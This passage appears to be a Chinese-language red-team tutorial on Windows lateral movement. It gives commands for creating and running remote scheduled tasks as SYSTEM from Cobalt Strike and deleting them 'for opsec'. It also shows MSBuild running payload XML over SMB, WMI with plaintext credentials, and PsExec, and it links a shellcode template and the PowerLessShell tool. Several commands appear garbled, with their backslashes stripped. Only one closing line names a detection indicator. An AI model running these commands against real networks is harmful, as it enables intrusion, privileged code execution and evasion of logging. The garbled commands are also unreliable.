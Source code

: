 In CobaltStrike:

shell schtasks /create /tn ExampleTask /tr c:\windows\system32\calc.exe /sc once /st 00:00  /S host.domain /RU System

shell schtasks /run /tn ExampleTask /S host.domain

Then delete the job (opsec!)

shell schtasks /F /delete /tn ExampleTask /S host.domain

MSBuild

虽然不是横向移动技术，但 Casey Smith 在 2016 年发现，可以将 MSBuild.exe 与上述某些方法结合使用，以避免丢弃已编码的 Powershell 命令或生成 cmd.exe。MSBuild.exe 是一个 Microsoft 签名的可执行文件，已随. NET Framework 软件包一起安装。MSBuild 用于通过提供架构的 XML 文件来 compile/build C# applications。从攻击者的角度来看，这用于编译 C＃代码以生成恶意的二进制文件或有效负载，甚至直接从 XML 文件运行有效负载。MSBuild 也可以通过 SMB 进行编译，如下语法所示。

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe \\host.domain\path\to\XMLfile.xml

当然可以是已经通过建立会话链接，然后把远程通过 WMI 来用 MSBuild 来远程编程 C# 的 XMLfile.xml

wmic /node:LADWIN.lab.local /user:LAB\administrator /password:Password!

process call create "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe C:\Windows\XMLfile.xml"

XML Template:

https://gist.githubusercontent.com/ConsciousHacker/5fce0343f29085cd9fba466974e43f17/raw/df62c7256701d486fcd1e063487f24b599658a7b/shellcode.xml

What doesn’t work:

wmic /node:LABWIN10.lab.local /user:LAB\Administrator /password:Password! process call create "c:\windows\Microsoft.NET\Framework\v4.0.30319\Msbuild.exe \\LAB2012DC01.LAB.local\C$\Windows\Temp\build.xml"

由于双跳问题，尝试使用 wmic 调用 msbuild.exe 通过 SMB 构建 XML 将会失败。当发生网络登录（类型 3）时，会出现双跳问题，这意味着凭据实际上从未发送到远程主机。由于凭据没有发送到远程主机，因此远程主机无法向有效负载托管服务器进行身份验证。在 Cobalt Strike 中，使用 wmic 时通常会遇到这种情况，解决方法是为该用户创建令牌，因此可以从该主机传递凭据。但是，如果没有 CS，则有一些解决方法：

在本地托管 XML 文件（放置到磁盘）

copy C:UsersAdministratorDownloadsbuild.xml \LABWIN10.lab.localC$WindowsTemp\

wmic /node:LABWIN10.lab.local /user:LABAdministrator /password:Password! process call create "c:windowsMicrosoft.NETFrameworkv4.0.30319Msbuild.exe C:WindowsTempbuild.xml"

通过 WebDAV 托管 XML(远程服务器托管)

使用 PsExec

psexec \host.domain -u DomainTester -p Passw0rd c:windowsMicrosoft.NETFrameworkv4.0.30319Msbuild.exe \host.domainC$WindowsTempbuild.xml"

在 Cobalt Strike 中，有一个 Aggressor Script 扩展程序，该扩展程序使用 MSBuild 执行 Powershell 命令，而不会通过不受管进程（二进制直接编译成机器代码）而生成 Powershell。这是通过 WMI / wmic.exe 上传的。

https://github.com/Mr-Un1k0d3r/PowerLessShell

MSBuild 的关键指标是它正在通过 SMB 执行，并且 MSBuild 正在建立出站连接。
